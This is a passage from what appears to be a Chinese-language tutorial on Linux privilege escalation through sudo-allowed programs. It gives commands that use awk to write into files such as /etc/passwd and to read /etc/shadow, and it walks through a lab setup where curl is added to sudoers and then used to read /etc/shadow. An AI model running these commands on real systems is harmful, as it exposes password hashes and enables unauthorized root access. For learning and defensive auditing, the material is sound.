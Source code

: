 ![](./linux提权_image/26.png)

**3、通过awk修改/etc/passwd文件内容**

```
LFILE=xx.txt  需要写入的文件
LFILE=file_to_write
awk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }' DATA就是需要写入的内容
```

**4、通过awk读取/etc/shadow文件内容**

```
LFILE=/etc/shadow
sudo awk '//' "$LFILE"
```
![](./linux提权_image/27.png)

##### curl读取密码文件复现

```
1、visudo /etc/sudoers
2、将all替换为/usr/bin/curl
3、ctrl + o 
4、回车
5、ctrl +x
6、在普通用户处执行sudo -l 查看可以执行的命令
7、利用   命令： sudo curl file:///etc/shadow
即可查看到etc/shadow文件下的内容
```

![](./linux提权_image/18.png)

